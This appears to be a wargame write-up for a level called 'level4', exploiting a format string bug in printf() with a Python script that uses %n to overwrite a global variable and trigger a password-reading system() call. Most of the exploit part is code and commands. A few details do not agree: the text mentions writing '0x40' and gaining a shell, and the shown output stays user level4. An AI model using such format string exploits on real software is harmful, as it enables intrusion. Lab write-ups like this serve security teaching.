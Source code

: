 <h1 align="center"> LEVEL 4 </h1>

## 🔍 Analysis of Decompiled [level4](./source.c)
The target is a vulnerable binary named `level4`. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x1025544`
- Satisfy the condition `if (m == 0x1025544)` to execute ` system("/bin/cat /home/user/level5/.pass")`


### 🔐 Binary Protections

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4

void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

```
## 💥 Exploit 

Leak stack contents to determine the correct format string offset
Use %n to write `0x40` to the address of the global variable m
Trigger the condition and gain a shell

###  Step 1: Find the Address of m

```sh
(gdb) p &m
$1 = (int *) 0x08049810
```
### Step 2: Discover Format String Offset

```sh
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level4
done
```
Look for `41414141` in the output. appears at `%11$x`, that means the offset is 11.
### Step 3: Exploit Script
```py
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x08049810)
target_val = 0x1025544
written = len(m_addr)

padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset)
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)


```
### Step 4: Execute the Exploit
```
python exploit.py 11 </br>
(cat payload.txt; cat) | ./level4
$ whoami
level4
```
